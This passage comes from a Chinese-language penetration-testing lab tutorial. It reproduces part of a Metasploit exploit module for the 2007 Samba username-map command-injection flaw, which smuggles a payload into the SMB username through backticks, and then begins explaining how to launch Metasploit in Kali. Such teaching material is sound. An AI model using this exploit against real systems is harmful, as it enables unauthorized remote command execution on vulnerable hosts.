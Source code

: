 ```
        [
          [ "Automatic", { } ]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'May 14 2007'))

    # 模块配置参数，使用的远程端口号默认为 139
    register_options(
      [
        Opt::RPORT(139)
      ], self.class)
  end


  # 攻击过程
  def exploit
    
    # 连接目标服务 139 端口
    connect

    # 使用 payload 构建用户名，其中包含的 nohup 用来让命令在后台运行而不退出
    username = "/=`nohup " + payload.encoded + "`"
    
    # 进行 Samba 客户端连接操作，发送命令触发漏洞，如果出错则退出
    begin
      simple.client.negotiate(false)
      simple.client.session_setup_no_ntlmssp(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
      # nothing, it either worked or it didn't ;)
    end

    handler
  end

end
```

## 9. 使用 Metasploit 渗透攻击 Samba 漏洞

### 9.1 启动 Metasploit

从维基百科上获取的介绍：

> Metasploit项目是一个旨在提供安全漏洞信息计算机安全项目，可以协助安全工程师进行渗透测试（penetration testing）及入侵检测系统签名开发。Metasploit项目最为知名的子项目是开源的Metasploit框架，一套针对远程主机进行开发和执行“exploit代码”的工具。

我们后面很快会有实验详细学习 Metasploit 框架，这里我们只是简单的利用这个框架对 Samba 的漏洞进行利用和攻击获取远程执行命令的权限。

首先，我们需要启动 Metasploit 框架，启动的时间比较长，大概 10 分钟，请耐心等待，这段时间可以去熟悉下我们即将利用的漏洞。

启动 Metasploit 框架比较简单，在 Kali 中依次执行下面的命令即可：
